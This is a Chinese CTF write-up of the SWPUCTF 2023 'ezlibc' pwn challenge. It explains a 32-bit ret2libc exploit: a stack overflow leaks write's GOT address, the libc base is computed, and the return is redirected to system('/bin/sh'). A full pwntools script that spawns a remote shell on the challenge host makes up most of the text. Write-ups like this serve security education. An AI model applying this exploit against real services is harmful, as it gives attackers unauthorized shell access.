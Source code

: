 ## 基本信息

- 题目名称：[SWPUCTF 2023 秋季新生赛]ezlibc
- 题目链接：https://www.nssctf.cn/problem/4544
- 考点清单：ret2libc，GOT泄露
- 工具清单：gdb，python-pwntools，python-LibcSearcher

- payloads：详见本文末尾

## 一、看到什么

- 题目给出一个.so文件，基本确定攻击类型ret2libc
- 反汇编发现两个自定义函数，main调用dofunc。同时发现 程序懒加载机制，plt表自带了read和write两个函数

![](./images/ezlibc-func.png)

- dofunc存在read栈溢出，同时调用了plt链接的write函数

![](./images/ezlibc-vuln.png)

## 二、想到什么解题思路

### 第一轮

- 通过write函数将 自身地址写入标准输出 来 泄露自身libc地址
- 通过write函数地址计算libc基地址，通过`基地址+偏移量`确定system函数地址
- 通过ROP来跳转回dofunc初始地址，重复执行dofunc来利用之前获取到的地址构造gadget获取shell

## 三、尝试过程和结果记录

### 第一轮

- 获取plt表中write函数的地址

```python
from pwn import *
from LibcSearcher import *

lc = "./ezlibc"
libc_so = "./libc-2.31.so"

rmt = "node4.anna.nssctf.cn"
pt = 28289

elf = ELF(lc)
libc = ELF(libc_so)
#p = process(lc)
p = remote(rmt,pt)

write_plt = elf.plt['write']
write_got = elf.got['write']
func = elf.sym['dofunc']

padding = b'A' * 0x14

payload1 = padding + p32(write_plt) + p32(func) + p32(1) + p32(write_got) + p32(8)

p.recvuntil("input:")

p.send(payload1)
p.recvuntil(b'byebye')
write_addr = u32(p.recv(4))
print(hex(write_addr))
```

- 计算libc基地址，查找系统调用和shell字符串

```python
libc_base = write_addr - libc.sym['write'] # 计算libc基地址
sys = libc_base + libc.sym['system'] # 计算system地址
bin_sh_addr = libc_base + libc.search(b'/bin/sh').__next__() # 从libc里查找shell字符串
```

![](./images/ezlibc-calc-libc.png)

- 在第二次运行dofunc函数时跳转至系统调用并传参shell字符串

```python
payload2 = padding + p32(sys) + b'A'* 4 + p32(bin_sh_addr)

p.send(payload2)
```

## 四、Payload

```python
from pwn import *
from LibcSearcher import *

lc = "./ezlibc"
libc_so = "./libc-2.31.so"

rmt = "node4.anna.nssctf.cn"
pt = 28289

elf = ELF(lc)
libc = ELF(libc_so)
#p = process(lc)
p = remote(rmt,pt)

write_plt = elf.plt['write']
write_got = elf.got['write']
func = elf.sym['dofunc']

padding = b'A' * 0x14

payload1 = padding + p32(write_plt) + p32(func) + p32(1) + p32(write_got) + p32(8) 
# 栈溢出覆盖地址跳转至plt表记录的write函数，并传入参数write(write_got,1,8),意为将内存中got表中记录的write函数存储地址定向写到标准输出，8是地址长度

p.recvuntil(b"input:")

p.send(payload1) # 暴露write地址

p.recvuntil(b'byebye')
write_addr = u32(p.recv(4)) # 读取泄露的write地址，32位地址只有四字节

libc_base = write_addr - libc.sym['write'] # 计算libc基地址
sys = libc_base + libc.sym['system'] # 计算system地址
bin_sh_addr = libc_base + libc.search(b'/bin/sh').__next__() # 从libc里查找shell字符串

payload2 = padding + p32(sys) + b'A'* 4 + p32(bin_sh_addr)

p.send(payload2)

p.interactive()
```

